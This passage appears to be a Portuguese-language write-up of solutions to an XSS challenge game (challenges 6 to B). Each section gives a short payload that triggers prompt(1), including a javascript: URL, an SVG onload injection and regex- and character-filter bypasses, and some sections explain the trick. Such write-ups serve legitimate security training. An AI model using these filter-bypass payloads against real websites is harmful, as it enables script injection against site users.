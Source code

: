 ```
javascript:prompt(1)#{"action":1}
```

[Ir para o desafio 6](https://www.google.com/search?q=%23desafio-6)

### 🔹 7º desafio

<center><img src='/Imagem do 🦆 DuckWare 🦆 DuckWare/Atividade_7✅.png'></center>

```
"><svg/a=#"onload='/*#*/prompt(1)'
```

[Ir para o desafio 7](https://www.google.com/search?q=%23desafio-7)

### 🔹 8º desafio

<center><img src='/Imagem do 🦆 DuckWare 🦆 DuckWare/Atividade_8✅.png'></center>

```
 prompt(1) -->
```

[Ir para o desafio 8](https://www.google.com/search?q=%23desafio-8)

### 🔹 9º desafio

**Resolução pendente.**

[Ir para o desafio 9](https://www.google.com/search?q=%23desafio-9)

### 🔹 A desafio

<center><img src='/Imagem do 🦆 DuckWare 🦆 DuckWare/Atividade_A✅.png'></center>

Para ignorar a primeira expressão regular, basta usar uma aspa simples para dividir a palavra-chave `prompt` em `pr'ompt`. Isso claramente não é uma instrução **JavaScript** válida, mas não se preocupe: a segunda expressão regular removerá o caractere intruso `'`, retornando um vetor de ataque válido!

```
p'rompt(1)
```

[Ir para o desafio A](https://www.google.com/search?q=%23a-desafio)

### 🔹 B desafio

<center><img src='/Imagem do 🦆 DuckWare 🦆 DuckWare/Atividade_B✅.png'></center>

O truque aqui é usar um operador alfanumérico — ou seja, um operador que não exija o uso dos caracteres especiais proibidos. Existem vários deles, e um que podemos utilizar aqui é o operador `in`.

```
"(prompt(1))in"
```
